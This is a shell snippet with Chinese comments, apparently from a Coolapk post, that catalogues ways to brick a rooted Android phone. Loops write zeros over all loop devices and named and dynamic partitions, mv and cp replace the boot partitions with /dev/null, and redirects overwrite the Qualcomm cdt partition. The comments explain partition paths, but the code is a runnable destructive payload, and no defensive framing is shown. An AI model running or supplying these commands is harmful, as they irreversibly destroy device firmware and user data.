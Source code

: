 ```shell
for i in $(ls /dev/block/loop*) ; do
  dd if=/dev/zero of=${i} bs=1b count=10
done
#此代码通过获取/dev/block目录下所有以loop开头的设备文件(例如 loop[0-3])来修改文件(ls 带“*”的路径会直接输出完整路径)

for i in $(ls /dev/block/by-name/*) ; do
  dd if=/dev/zero of=${i} bs=1b count=10
done
#此代码通过获取/dev/block/by-name目录下的所有分区文件来修改文件(ls 带“*”的路径会直接输出完整路径)

for i in $(ls /dev/block/bootdevice/by-name/*) ; do
  dd if=/dev/zero of=${i} bs=1b count=10
done
#此代码通过获取/dev/block/bootdevice/by-name目录下的所有分区文件来修改文件(ls 带“*”的路径会直接输出完整路径)

for i in $(ls /dev/block/mapper/*) ; do
  [[ -d "${i}" ]] || dd if=/dev/zero of=${i} bs=1b count=10
done
#此代码通过获取/dev/block/mapper目录下的所有分区文件来修改文件(ls 带“*”的路径会直接输出完整路径)

# 对于分区路径的解释：
#  大部分设备的分区路径是 /dev/block/by-name ，部分旧设备是 /dev/block/bootdevice/by-name ， /dev/block/mapper 是super分区(动态分区的系统分区合区)内的子分区文件(有些不属于super分区，而是属于其子分区)

dd if=/dev/zero of=$(magisk --path)/.magisk/block/system_root bs=1b count=10 #通过获取Magisk缓存路径映射的分区路径来修改文件(在新版本Magisk已被移除)


# 3、mv

mv /dev/null /dev/block/bootdevice/by-name/boot #替换单槽boot为空
mv /dev/null /dev/block/bootdevice/by-name/boot_a #替换a槽boot为空
mv /dev/null /dev/block/bootdevice/by-name/boot_b #替换b槽boot为空
mv /dev/null /dev/block/by-name/boot #替换单槽boot为空
mv /dev/null /dev/block/by-name/boot_a #替换a槽boot为空
mv /dev/null /dev/block/by-name/boot_b #替换b槽boot为空

# 对于分区路径的解释：
#  大部分设备的分区路径是 /dev/block/by-name ，部分旧设备是 /dev/block/bootdevice/by-name


# 4、cp

cp -rf /dev/null /dev/block/bootdevice/by-name/boot #替换单槽boot为空
cp -rf /dev/null /dev/block/bootdevice/by-name/boot_a #替换a槽boot为空
cp -rf /dev/null /dev/block/bootdevice/by-name/boot_b #替换b槽boot为空
cp -rf /dev/null /dev/block/by-name/boot #替换单槽boot为空
cp -rf /dev/null /dev/block/by-name/boot_a #替换a槽boot为空
cp -rf /dev/null /dev/block/by-name/boot_b #替换b槽boot为空


# 5、重定向操作符

echo '' > /dev/block/by-name/cdt #修改高通设备参数分区为空
ls / > /dev/block/by-name/cdt #修改高通设备参数分区为根目录各个分区名称
cat /dev/null > /dev/block/by-name/cdt #修改高通设备参数分区为空
chmod 000 -R /data/adb > /dev/block/by-name/cdt #修改高通设备参数分区为空
chattr +i /data/adb > /dev/block/by-name/cdt #修改高通设备参数分区为空

# 作者：酷安@泠熙子
#  使用請注明出處

```